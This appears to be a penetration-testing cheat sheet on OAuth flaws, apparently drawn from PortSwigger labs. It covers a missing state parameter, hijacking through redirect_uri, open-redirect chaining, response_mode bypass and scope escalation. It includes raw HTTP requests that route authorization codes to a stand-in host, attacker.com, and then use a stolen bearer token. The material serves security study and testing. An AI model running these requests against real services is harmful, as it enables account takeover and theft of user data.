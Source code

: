 ### Improper implementation of the implicit grant type
In the implicit flow, this POST request is exposed to attackers via their browser. As a result, this behavior can lead to a serious vulnerability if the client application doesn't properly check that the access token matches the other data in the request. In this case, an attacker can simply `change the parameters` sent to the server to impersonate any user.

---

### Exploiting Absense of State Parameter
In Oauth mechanism, `state` parameter in authorization request work as a CSRF token. Absense of this parameter can be exploitable to CSRF attack.
<br>
<br>
**Here is an example of authorization request without `state` parameter**
```
GET /authorization?client_id=12345&redirect_uri=https://client-app.com/callback&response_type=code&scope=openid%20profile HTTP/1.1
Host: oauth-authorization-server.com
```
**Now we can send the request with `code` to a victim.**
```
GET /oauth-login?code=epAPZZJJLQCCYm6sI7NSKgiq37kkBndfvXxsw1wfukJ
Host: client-app.net
```

---

### OAuth Account Hijacking via `redirect_uri`

Depending on the grant type, the `redirect_uri` parameter is used to send the authorization code to the specified domain in the `redirect_uri`. If an OAuth mechanism allows arbitrary domains to be specified in the `redirect_uri`, an attacker could exploit this flow to hijack the authorization code.

For example:  
```
redirect_uri=https://client-app.net
```
The code is sent to `client-app.net`.  
```
redirect_uri=https://attacker.com
```
The code is sent to `attacker.com`.<br>
<br>
***Note: If this process not work, try with `ssrf defense bypass` technique and `parameter pollution`.***<br>
<br>Check this for more details >> [Flawed redirect_uri validation](https://portswigger.net/web-security/oauth#leaking-authorization-codes-and-access-tokens)

---

### Stealing OAuth access tokens via an open redirect

If `redirect_uri` is not accepting arbitrary domain, we may be able to use directory traversal tricks to supply any arbitrary path on the domain. Something like this:
```
redirect_uri=https://client-app.com/oauth/callback/../
```
Or,
```
redirect_uri=https://client-app.com/oauth/callback/../../example/path
```
This will be interpreted on the back-end as:
```
https://client-app.com/example/path
```
At this point, if we find any `open redirect` vulnerability on `/example/path`, we can chain this issue to sent request to an attacker-controlled domain where we can host any malicious script and steal the `code`.

Check this for more details : [Portswigger Lab](https://portswigger.net/web-security/oauth/lab-oauth-stealing-oauth-access-tokens-via-an-open-redirect)

---

### Stealing OAuth access tokens via a proxy page

More deatils: [Portswigger Lab](https://portswigger.net/web-security/oauth/lab-oauth-stealing-oauth-access-tokens-via-a-proxy-page)

---

### Exploiting response_mode and redirect_uri

In some cases, changing `response_mode` can let you to bypass `redirect_uri` validation. You can change the value with `query`, `fragment`, `web_message`. Also if you notice that the `web_message` response mode is already in the request, this often allows a wider range of subdomains in the `redirect_uri`.
<br>
```
https://auth.example.com/authorize?
client_id=12345
&redirect_uri=https://client-app.net
&response_type=code
&response_mode=web_message
```

---

### Exploiting flawed scope validation in authorization code grant type in Oauth service provider server

**Note: For this we need our own malicious application**

In some scenario we can leak user information from Oauth authorization server by exploiting a misconfigured `scope` parameter during server-to-server token exchange.<br>
<br>
**Initial Authorization Request**
```
GET /authorize?client_id=12345
&redirect_uri=https://attacker.com/callback
&response_type=code
&scope=openid email
&state=xyz123
HTTP/1.1
Host: oauth-authorization-server.com
```
Now, the attacker exchanges the authorization code for an access token but modifies the `scope` parameter to include `profile`.<br>
<br>
**Authorization Code Exchange**
```
POST /token HTTP/1.1
Host: oauth-authorization-server.com
Content-Type: application/x-www-form-urlencoded

client_id=12345
&client_secret=SECRET
&redirect_uri=https://attacker.com/callback
&grant_type=authorization_code
&code=abc123xyz
&scope=openid email profile
```
In vulnerable case, the server does not reject the request and issues an access token with elevated privileges. Now the attacker has an access token with unauthorized profile access and can retrieve sensitive user data via API calls.<br>
<br>
**API call**
```
GET /userinfo HTTP/1.1
Host: api.oauth-authorization-server.com
Authorization: Bearer z0y9x8w7v6u5
```
***Note: `z0y9x8w7v6u5` is the access token.*** <br>
<br>We can do this in implicit grant type also by stealing the access token.<br>
<br>
More details: [Portswigger](https://portswigger.net/web-security/oauth#flawed-scope-validation)

---

### Unverified user registration

Some websites that provide an OAuth service allow users to register an account without verifying all of their details, including their email address in some cases `(In this case email verification don't work)`. An attacker can exploit this by registering an account with the OAuth provider using the same details as a target user, such as a known email address. Client applications may then allow the attacker to sign in as the victim via this fraudulent account with the OAuth provider.

